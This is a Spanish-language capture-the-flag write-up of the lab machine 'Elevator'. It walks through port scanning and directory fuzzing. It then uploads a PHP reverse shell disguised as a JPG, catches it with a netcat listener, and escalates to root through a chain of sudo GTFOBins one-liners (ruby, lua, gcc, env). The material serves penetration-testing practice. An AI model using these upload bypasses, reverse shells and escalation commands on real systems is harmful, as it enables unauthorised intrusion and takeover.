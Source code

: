 # Elevator

**Nivel:** Fácil

**Autor:** [beafn28](https://www.linkedin.com/in/beatriz-fresno-naumova-3797b931b/)

------------------
## Escaneo 

Relizamos un escaneo general con **nmap** en la IP de la máquina víctima para identificar los puertos abiertos. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

A continuación, utilizamos los scripts predeterminados de **nmap** para recopilar más información sobre los puertos identificados:

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
```

Evidenciamos un sitio web accedemos a este para inspeccionar su contenido:

![image](https://github.com/user-attachments/assets/638d5eea-f884-48ff-a8a7-81d2d60049f3)

![image](https://github.com/user-attachments/assets/a4b792c1-8d57-4eb1-b3a4-6dac127a1c68)

![image](https://github.com/user-attachments/assets/09a22ca9-37fc-497b-82bc-6aa3b6855238)

Después de revisar el código de la página web e interactuar con esta, encontramos información relevante que podrian ser nombres de usuarios: **daphne**, **velma**, **scooby**, **shaggy**

------------------
## Enumeración 

Realizamos **fuzzing** utilizando **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 -x html,php,txt -s 200,301 -b ''
---------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 5647]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
```

Identificamos los directorios **javascript** y **themes**. Al revisarlos, obtenemos respuestas de acceso no autorizado de parte del servidor y realizamos un **fuzzing** adicional:

```shell
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/common-and-spanish.txt -t 20 -x html,php,txt -b '' -s 200,301
---------------------------------------------------------------------------------
/archivo.html         (Status: 200) [Size: 3380]
/upload.php           (Status: 200) [Size: 0]
/uploads              (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
```

Encontramos los ficheros **archivo.html** y **upload.php** y el directorio **uploads**.

--------------
## Explotación

Al revisar la página **archivo.html**, observamos que el formulario permite la carga de ficheros **jpg**:

![image](https://github.com/user-attachments/assets/55b5577e-1995-4d60-97eb-15fe5b20ac0f)

Ahora intentamos subir una shell reversa en PHP, almacenada como **jpg**

Configuramos la shell [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) y lo guardamos como la extensión **jpg**. 


Nótese que hemos establecido **172.17.0.1** como la **IP** y **4444** como el **PORT** de escucha para el listener.

```shell
wget -O reverse.jpg 'https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash'
Saving to: ‘reverse.jpg’
reverse.jpg [ <=> ]   2.53K  --.-KB/s    in 0s      
2024-12-26 21:09:41 (5.82 MB/s) - ‘reverse.jpg’ saved [2590]
```
![image](https://github.com/user-attachments/assets/1872f317-00b9-48e5-ba2c-9710558af290)

![image](https://github.com/user-attachments/assets/7b56e3c0-1b5c-43c2-87eb-4d40213b32b8)

Iniciamos el **listener** para la shell reversa con **netcat**: 

```shell
nc -lvnp 4444 
-------------------------------------------------------------------
listening on [any] 4444 ...
```

Ahora ejecutamos la **shell reversa** a partir del enlace obtenido desde el fichero **upload.php** al subir el **jpg** desde el formulario de **archivo.html** y obtenemos acceso inicial:

```shell
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43592
Linux 36ae1fa1a512 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 GNU/Linux
 02:37:38 up  6:20,  0 user,  load average: 0.10, 0.10, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@36ae1fa1a512:/$ 
```
------------------------------
### Tratamiento de TTY

Configuramos el **TTY** para una operación cómoda en la consola:

```shell
script /dev/null -c bash 
```
Presionamos **Ctrl  +  Z**, y luego ejecutamos:

```shell
stty raw -echo; fg
reset xterm
stty rows 35 columns 156
export TERM=xterm
export SHELL=bash
```

En los comandos anteriores es necesario ajustar los valores **rows** y **columns**  con los valores obtenidos al ejecutar en una consola de la máquina atacante el comando:

```shell
stty size
```

Ahora podemos utilizar **Ctrl+L** y **Ctrl+C**.


------------------------------
## Escalando privilegios

Verificamos si es posible ejecutar algún fichero como **root** con **sudo -l**:

```shell
sudo -l
------------------------------------------------
User www-data may run the following commands on 36ae1fa1a512:
    (daphne) NOPASSWD: /usr/bin/env
```

Observamos que podemos ejecutar **env** como el usuario **daphne** revisamos la documentación de [GTFOBins for env](https://gtfobins.github.io/gtfobins/env/#sudo)

```shell
sudo -u daphne env /bin/bash
```

Repetimos el proceso con **sudo -l** hasta lograr escalar como **root**:

```shell
sudo -l
------------------------------------------------
User daphne may run the following commands on 36ae1fa1a512:
    (vilma) NOPASSWD: /usr/bin/ash
```


```shell
sudo -u vilma ash
```

```shell
sudo -l
------------------------------------------------
User vilma may run the following commands on 36ae1fa1a512:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

[GTFOBins for ruby](https://gtfobins.github.io/gtfobins/ruby/#sudo)

```shell
sudo -u shaggy ruby -e 'exec "/bin/bash"'
```

```shell
sudo -l
------------------------------------------------
User shaggy may run the following commands on 36ae1fa1a512:
    (fred) NOPASSWD: /usr/bin/lua
```

[GTFOBins for lua](https://gtfobins.github.io/gtfobins/lua/#sudo)

```shell
sudo -u fred lua -e 'os.execute("/bin/bash")'
```

```shell
sudo -l
------------------------------------------------
User fred may run the following commands on 36ae1fa1a512:
    (scooby) NOPASSWD: /usr/bin/gcc
```

[GTFOBins for gcc](https://gtfobins.github.io/gtfobins/gcc/#sudo)

```shell
sudo -u scooby gcc -wrapper /bin/bash,-s .
```

```shell
sudo -l
------------------------------------------------
User scooby may run the following commands on 36ae1fa1a512:
    (root) NOPASSWD: /usr/bin/sudo
```

[GTFOBins for sudo](https://gtfobins.github.io/gtfobins/sudo/#sudo)

```shell
sudo sudo /bin/bash
```

Finalmente hemos podido obtener usuario como **root**:

```shell
whoami
----------------
root
```
